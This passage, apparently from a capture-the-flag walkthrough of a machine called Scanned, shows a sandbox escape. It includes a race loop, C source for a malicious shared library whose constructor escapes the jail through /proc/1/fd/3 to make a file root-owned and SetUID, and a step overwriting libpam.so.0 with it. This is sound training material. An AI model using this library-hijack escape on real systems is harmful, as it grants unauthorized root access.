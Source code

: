     
    
    clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a & until [ -d jails/a ]; do sleep 1; done; cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/; echo "copied libs"
    [1] 124255
    copied libs
    su: user root does not exist or the user entry does not contain all the required fields
    Exited
    Kill err: (3)
    

This time it runs! It errors out in the `su` call, but that looks like `su`
being called.

### Malicious Library File

#### Write and Compile Library

My library will be very simple. It only has a constructor that is called when
the library loads, and that `init` function will go outside the jail and
modify `/tmp/0xdf` to be owned by root and SetUID (4777):

    
    
    #include <stdlib.h>
    #include <unistd.h>
    #include <sys/stat.h>
    
    static __attribute__ ((constructor)) void init(void) {
    
        char fn[120] = "/proc/1/fd/3/../../../../../../../../tmp/0xdf";
        char mode[] = "4777";
        int mode_int = strtol(mode, 0, 8);
        chown(fn, 0, 0);
        chmod(fn, mode_int);
    }
    

I’ll compile this as a shared object (library) file and upload it to Scanned:

    
    
    oxdf@hacky$ gcc -shared -fPIC -o setuidlib.so setuidlib.c 
    oxdf@hacky$ gcc -shared -fPIC -o setuidlib.so setuidlib.c 
    

#### Failure

I’ll run the same loop as before, but this time, after copying all the
libraries into the jail, I’ll copy my library on top of `libpam.so.0` with
this command:

    
    
    ./sandbox /dev/shm/runsu a &
    until [ -d jails/a ]; do 
      sleep 1; 
    done 
    cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/
    cp /dev/shm/setuidlib.so jails/a/usr/lib/libpam.so.0
    echo "copied libs"
    